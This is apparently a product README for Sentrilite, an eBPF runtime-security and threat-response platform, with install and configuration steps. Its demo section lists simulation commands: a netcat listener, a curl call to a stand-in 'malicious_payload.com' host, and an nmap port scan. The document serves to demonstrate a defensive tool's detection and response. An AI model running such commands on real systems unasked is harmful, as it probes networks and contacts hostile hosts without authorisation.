



## Sentrilite — Threat Detection-as-Code & Active Response, eBPF-based, Observability, Runtime-Security & Cloud-Security Posture Management in One Platform with AI/LLM Insights.
### Website: https://sentrilite.com
### Please Contact: info@sentrilite.com for a trial license.

## Live Demo – Active Threat Response


---

## What This Demo Shows

- Detection of active threats **during execution**
- Risk scoring based on **syscall + process + network behavior**
- **Automatic process termination** for high-risk activity

This demo shows **real-time detection and automatic termination of malicious activity** on a live Linux system using Sentrilite.

| Color | Category | Meaning |
|------|---------|--------|
| 🔴 **Red** | Critical Risk | Confirmed malicious behavior with high confidence |
| 🟠 **Orange** | Medium Risk | Suspicious activity requiring investigation |
| 🟣 **Purple** | Active Response | Enforcement action taken – process terminated |

The following commands were used for simulation:
```
sudo  nc -l 5000
curl http://malicious_payload.com >/dev/null 2>&1
nmap -p 22,80,443 127.0.0.1 >/dev/null 2>&1
```
---

## Sentrilite Alert Report

## Control Plane / Main Dashboard

## Live Server Dashboard

## Sentrilite Workflow Diagram

## Sentrilite Components

## CI/CD Workflow


## ✨ Description

Sentrilite is a Detection-as-Code & Active Response, Hybrid-Cloud Programmable Observability, Runtime-Security & CSPM Platform and streams structured, real-time events to a web UI where custom rules drive risk scoring, alerting, and reporting.
Hybrid & multi-cloud ready: Works the same across public clouds and on-prem—EKS, GKE, AKS, vanilla Kubernetes, bare-metal, and edge—so you get a consistent, low-overhead security and observability layer for hybrid/multi-cloud environments all managed from a single dashboard.

In Kubernetes, Sentrilite runs as a privileged DaemonSet on every node (no changes to your workloads). Each agent uses hostPID/hostNetwork to observe container processes, then enriches events with pod metadata (namespace, pod, container, UID) by correlating cgroups with the API server. This lets you see all the activity at the container/pod level:

- Detection-As-Code: Add / modify detection rules instantly via json files. Hot Reload — no rebuilds, no redeploys. See custom_rule.json and security_rules.json
- Active Response: Automatically terminate malicious processes in real time based on policy, without agent restarts or redeploys.
- Seamless install & upgrade: kubectl apply the DaemonSet (sentrilite.yaml) and you’re done; rolling updates pick up new rules and images cluster-wide.
- Process visibility: Capture commands and args (execve) per container/pod with user, PID/PPID, and image context; trigger rules like “alert on cat /etc/passwd” or “block high-risk binaries.”
- File activity: Match sensitive file paths (config, keys, tokens) using rule packs; flag exfil patterns and privilege-escalation attempts.
- Network activity: Trace socket opens and outbound/inbound connects/binds; create rules for destinations IP, ports, or CIDRs (e.g., “deny egress to 1.2.3.0/24:443”).
- Live operations UI: Watch streaming events per node/pod, plus live node/server health and OOMKilled notices; filter by namespace/pod/container in real time.
- Custom rules & risk: Declarative JSON rules tag and score events; high-risk findings become alerts with clear, human-readable summaries that include k8s context.
- Reporting: Generate rich summary reports (e.g., PDF/CSV) showing timelines, risky commands, and per-namespace insights for audits and incident reviews.
- Real-time security posture: Optional controls (like iptables-backed allow/deny rules) help you respond quickly to suspicious network behavior.
- Third-Party-Integrations: Seamlessly integrate with external alerting tools like: prometheus:alert-manager, pagerduty etc.
- LLM-powered insights: automatically summarize trends, explain anomalies, and suggest remediation/rules from live telemetry and alerts.

In summary, Sentrilite gives you container-aware process, file, and network visibility with minimal overhead, live dashboards for fast triage, and exportable reports for compliance and forensics—all from a single, node-level DaemonSet.

- Website: https://sentrilite.com
- Email: info@sentrilite.com
- Hybrid Cloud Demo: https://youtu.be/FmFUs0ZhdIY
- Linux (bare-metal) Demo: https://youtu.be/rRexG-f6YFM

---

## ✨ Key Features

- Multi-Cloud/On-Prem visibility and management from a single dashboard.
- eBPF syscall & network visibility
- Real-time dashboards (Nginx + WebSocket server)
- Custom rules with risk scoring and alerting
- Kubernetes enrichment (namespace/pod/container/UID) when running as a DaemonSet
- OOMKilled alerts and pod watchers (best effort if K8s APIs available)
- Seamlessly integrate with prometheus alert-manager/pagerduty

---

## 📦 Contents of this Bundle

| File                      | Purpose
|---------------------------|------------------------------------------
| `trace_syscall.o`         | eBPF kernel object for syscall monitoring
| `install.sh`              | Script to load the ebpf kernel module
| `unload_bpf.sh`           | Script to unload the ebpf kernel module
| `trace_events`            | Userspace program for network/socket activity
| `sentrilite`              | Go websocket server that forwards live events to browser dashboard
| `main.html`               | Main frontend UI for viewing node status
| `dashboard.html`          | Local frontend UI for viewing live events
| `sys.conf`                | Configuration file
| `custom_rules.json`       | Custom Ruleset. Default 30+ rules. Can be extended at runtime. Refer the Product Guide for details.
| `security_rules.json`     | Linux & Kubernetes Security Rules. Can be extended at runtime. Refer the Product Guide for details.
| `sensitive_files.json`    | Files to Monitor. Refer the Product Guide for details.
| `sentrilite.yaml`         | Sentrilite daemonset manifest to install on Kubernetes cluster
| `kustomization.yaml`      | Kubernetes fest to update License.key
| `charts`                  | Helm Charts for installation
| `bpftool`                 | Tool to load and attach kernel tracepoints. Source: https://git.kernel.org/pub/scm/linux/kernel/git/bpf/bpf-next.git
| `LICENSE.bpftool`         | GPL-2.0 License for bpftool. Source: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/plain/LICENSES/preferred/GPL-2.0
| `license.key`             | Sentrilite License key file
| `LICENSE.txt`             | Sentrilite License Agreement
| `gen_keys.txt`            | Instructions to create tls/ssl/jwt keys for agent/control-plane
| `install.README`          | This installation guide
| `dashboard.README`        | Dashboard usage guide
| `Product Guide v1.1.pdf`  | Sentrilite Product Guide

---

## ⚙️  System Requirements

- Linux Kernel with eBPF support (Linux 5.8+ recommended)
- Root privileges (for loading eBPF programs)
- Ports: 80 (dashboard), 8765 (WebSocket)
- Kubernetes (optional): Cluster access with ability to run a privileged DaemonSet

---

## ⚙️  General  Requirements

- bpftool:                Load eBPF programs and manage maps              sudo apt install bpftool (Ubuntu)
- libbpf & headers        Required by the kernel loader (trace_events)    Pre-installed on most modern distros (use bundled binary)
- nginx                   Required to view dashboard                      sudo apt install nginx

---

## 🔐 Licensing

The project is currently using a trial license.key .

---

## 🛠️ Third-Party Integrations (PagerDuty & Alertmanager)

- Kubernetes: add URLs in a ConfigMap (e.g., ALERTMANAGER_URL, optional PAGERDUTY_EVENTS_URL) and the PagerDuty routing key in a Secret (PAGERDUTY_ROUTING_KEY).
- Standalone Linux: set the same keys in sys.conf (e.g., ALERTMANAGER_URL=http://..., PAGERDUTY_ROUTING_KEY=...; PD URL defaults to US if omitted).

Sentrilite prefers env vars (K8s) and falls back to sys.conf (bare metal).
Note: Alertmanager must be reachable and supports v2 API (/api/v2/alerts). PagerDuty uses Events v2.

---

## Quick Trial 

## Run it with Docker 

```
sudo docker run \
  --name sentrilite \
  --privileged \
  --network host \
  -v /sys/fs/bpf:/sys/fs/bpf \
  -v /sys/kernel/debug:/sys/kernel/debug \
  sentrilite/local:1.0.0

```
PDF reports can be downloaded at http://localhost:8080. Reports are generated every 5 mins.

## Run it on Kubernetes Cluster

git clone repo. cd to the charts directory and run:

```
helm upgrade --install sentrilite charts/sentrilite -n kube-system --create-namespace
```

---

## 🛠️ Installation Steps

For Kubernetes Cluster: EKS/AKS/GKE or Private Kubernetes Cluster

```
Helm Installation:

In the charts directory:
helm upgrade --install sentrilite charts/sentrilite -n kube-system --create-namespace

OR plain kubectl installation:

kubectl apply -f sentrilite.yaml
kubectl -n kube-system get pods -l app=sentrilite-agent -o wide
kubectl get nodes | awk '!/NAME/{print $1,",K8s"}' > nodes.txt

# Port forward
POD=$(kubectl -n kube-system get pod -l app=sentrilite-agent -o name | head -n1)
kubectl -n kube-system port-forward "$POD" 8080:80 8765:8765

Example Alert Message:

  {
    "time": "2025-09-07 14:55:22",
    "type": "high_risk",
    "message": "root ran a high-risk command '/bin/sudo' from IP 10.0.0.1.",
    "pid": "1546794",
    "cmd": "/bin/sudo",
    "args": "",
    "ip": "127.0.0.1",
    "risk_level": 1,
    "tags": [
      "privilege-escalation"
    ],
    "k8s_namespace": "default",
    "k8s_pod": "debug-shell",
    "k8s_container": "shell",
    "k8s_pod_uid": "092d4607-2fd3-4db7-aba5-812d0bcd4e06"
  }

```

Open main.html and upload the file nodes.txt

For Non-Kubernetes Linux based Cluster

```
Run it with Docker on a Linux Server:

docker run --rm -it \
--privileged \
-v /sys/fs/bpf:/sys/fs/bpf \
-v /sys/kernel/debug:/sys/kernel/debug \
-p 8080:8080 \
sentrilite/local:1.0.0

It will auto-generate a PDF security report every 5 minutes, and you can view/download them at: http://localhost:8080

OR

1. **Unzip the bundle:**

unzip sentrilite_agent_bundle.zip
cd sentrilite

2. Load the bpf program:
sudo ./install.sh

3. Open sys.conf and configure:
IFACE=
LICENSE_KEY=./license.key
SIEM=""
PAGERDUTY_EVENTS_URL=""
PAGERDUTY_ROUTING_KEY=""
ALERTMANAGER_URL=""

4. Launch the Server:
sudo ./sentrilite

5. Open the Dashboard:
Copy the dashboard.html to /var/www/html or web root directory.
Open dashboard.html in your browser: http://<YOUR-SERVER-IP>/dashboard.html
You should see live events appear in real-time.

Log format in the Web UI:
[2025-04-14T00:12:32.008Z] PID=1234 COMM=ssh CMD=/bin/bash ARG= IP=127.0.0.1 TYPE=EXECVE

6. Open the Main Dashboard:
Copy the main.html & jspdf.umd.min.js to /var/www/html on your main admin server.
Open the main.html in your browser: http://<YOUR-SERVER-IP>/main.html
Click choose file and select a file containing your server lists.
Example file format:
Server_1_ip_address,prod
Server_2_ip_address,test
```

Once uploaded correctly, Sentrilite agent will monitor and show status/alerts/AI insights
for these servers.

For more detail information, refer to dashboard.README

---

# Configuration

- license.key — place in the current directory (baked in image or mounted as Secret).
- sys.conf — network config, placed in the current directory (baked in image or mounted as ConfigMap).
- Rule files (custom_rules.json, sensitive_files.json, security_rules.json, alerts.json) reside in the working dir; rules can be managed via the dashboard.

---

# Alerts & K8s Enrichment

- Events include (when available): k8s_namespace, k8s_pod, k8s_container, k8s_pod_uid.
- OOMKilled alerts and pod watchers run best-effort when the agent can access K8s APIs.

---

## 🛠️ Un-installation Steps

For Kubernetes Cluster: EKS/AKS/GKE or Private Kubernetes Cluster

```
kubectl -n kube-system delete ds/sentrilite-agent
# (Optional) If pods hang in Terminating:
kubectl -n kube-system delete pod -l app=sentrilite-agent --force --grace-period=0
```

For Non-Kubernetes Linux based Cluster
Run the following commands as root.

```
sudo ./unload_bpf.sh
```

---

## Support

For licensing, troubleshooting, or feature requests:
- 📧 info@sentrilite.com
- 🌐 https://sentrilite.com
